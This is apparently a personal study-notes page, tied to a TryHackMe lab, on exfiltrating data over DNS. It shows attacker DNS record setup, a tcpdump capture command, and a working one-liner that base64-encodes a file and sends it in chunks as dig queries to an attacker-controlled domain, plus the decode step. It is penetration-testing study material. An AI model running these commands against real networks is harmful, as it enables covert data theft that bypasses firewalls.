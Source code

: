 # Data Exfiltration Over DNS

## Introduction and Configuration
For more detail about DNS go to the [[DNS-Defined]] article, otherwise we also require control of a domain name with DNS records including NS, A or TXT. [[Setup-DNS]] or you do the [THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt) where they have one setup to be configurable. The IP address you want to exfiltrate data to, in this article stated as variable `$exfil-to-IP`

To be successful:
1. Add an A record that points to the IP you want to exfiltrate data to:
	- `Type A, Subdomain Name: $subdomainnameNS, Value: $exfil-to-IP`
2. Add NS record that routes DNS queries to the A record above
	- `Type NS, Subdomain Name: $subdomainname, Value: $subdomainnameNS.$control_domain_name.com`

Like:
**DNS Record** | **Type** | **Value**
--- | --- | ---
`$subdomainnameNS`.domainname.com  | A   |  `$exfil-to-IP`
`$subdomainname`.domainname.com | NS | `$subdomainnameNS`.domainname.com

To resolve:
```bash
dig +short `$subdomainname.$domainname.com 
```

## Exfiltration Over DNS

The DNS protocol is allowed in almost all firewalls in any organization network and is not regularly monitored. Although maximum length for FQDN (including.separators is 255 characters) and subdomain name (label) length must not exceed 63 characters (not including suffix .com, .net..) equating to a limited number of characters to transfer data over the **domain name**. Typical used when firewall blocks and filters all traffic, testing to TCP/UDP packets to check whether DNS is blocked by firewall or filters.

1. Register Domain Name
2. NS Record points to a server that Attacker controlled from within a network
3. Data is sent as  `D474.domain.com` the D474 is the data exfiltrated within the name
	1. Prior to sending, marshall D474 together
	2. Encode the file
	3. Split data to limitation of size contraints: total url size 255; subdomain label 63 
	4. At the recieving end: `sudo tcpdump -i eth0 udp port 53 -v tcpdump`
	5. At sending end `cat D474.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.$subdomain.$domain.com/' | awk '{print "dig +short " $1}' | bash` ; optionally on one line add ` tr -d "\n"` between `sed` and `fold` command.
4. DNS request is sent through local DNS server to internet
5. Exfiltrate-To location recieves DNS request
6. Extract of `D474` from the domain name.
7. `echo "$exfiltrated-data$.$subdomain.$domain_name.com." | cut -d"." -f1-8 | tr -d "." | base64 -d`

## C2 Communications over DNS 

For a listing of modern C2 see the [[C2-Matrix]] and [[Introduction-To-Comand-And-Control-Frameworks]] if you require some basic understanding regard fundementals of what a C2 is.


## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)